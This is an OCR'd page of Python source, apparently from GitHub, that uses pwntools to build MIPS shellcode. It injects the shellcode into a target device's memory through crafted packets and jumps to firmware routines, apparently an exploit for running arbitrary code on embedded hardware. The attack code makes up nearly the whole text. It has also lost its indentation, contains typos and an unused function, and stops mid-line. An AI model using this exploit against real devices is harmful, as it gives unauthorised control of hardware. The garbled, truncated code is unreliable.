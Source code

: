 ## Full Sourcecode
Requires pwntools to run.
```python
from pwn import *
import funcy
import time
#context.terminal = ['tmux', 'splitw', '-h']
def generateChecksum(data):
checksum = 0
for i in data:
checksum += i
return 0xff - (checksum & 0xff)
def send_shellcode_jump(target_addr):
sc = ""
sc += shellcraft.mips.mov('$ra', 0xfefd4+0xa0000000+0x200)
sc += "addui $sp, $sp, -0x50"
sc += "sw ra, -0x04($sp)"
sc += "sw s8, -0x08($sp)"
sc += "or $s8, $sp, $zero"
sc += shellcraft.mips.mov('$t0', target_addr) # laod upper & load lower
sc += 'j $t0\n'
sc += 'nop\n'
sc += "jr $ra\n" #Infinite loop
sc += "nop\n" #Infinite loop
def send_shellcode_memcpy(target_addr):
sc = ""
sc += "or $s0, $zero, $zero\n"
sc += "start:\n"
sc += shellcraft.mips.mov('$v0', 0xa3000020) # laod upper & load lower
sc += 'lbu $v1,0x0($v0)\n'
sc += "li $v0,0x1\n"
sc += 'beq $v0, $v1, start\n'
sc += 'nop\n'
sc += shellcraft.mips.mov('$a0', 0xa3000024)
sc += shellcraft.mips.mov('$a1', 0xa2008000)
sc += "add $a1, $a1, $s0\n"
sc += "addi $s0, $s0, 16\n"
sc += shellcraft.mips.mov('$a2', 16)
sc += shellcraft.mips.mov('$t0', 0xbfc04078)
sc += 'jalr $t0\n' # memcpy
sc += 'nop\n'
sc += shellcraft.mips.mov('$v0', 0xa3000020)
sc += 'or $v1, $zero, $zero\n'
sc += 'sw $v1, 0x00($v0)\n'
sc += "target:"
sc += "nop\n" #Infinite loop
sc += "b start\n" #Infinite loop
sc += "nop\n" #Infinite loop
crafted = asm(sc)
send_shellcode(crafted, 0xfefd4+0xa0000000+0x200)
def send_shellcode(shellcode, addr):
chunks = group(4, shellcode)
for i,c in enumerate(chunks):
sc = ""
sc += shellcraft.mips.mov('$v1', u32(c))
sc += shellcraft.mips.mov('$v0', addr + i*4)
sc += "sw $v1, 0x00($v0)\n"
sc += shellcraft.mips.mov('$t0', 0xbfc04fd0)
sc += "j $t0\n"
sc += "nop\n"
crafted = asm(sc)
packet = bytes([0x5a, 0xa5, 0x5a, 0x5c]) + bytes([0x00]) +
p32(0xfefd4+0xa0000000) + bytes([0x00]*2) + crafted + bytes([0x00]*(53-
```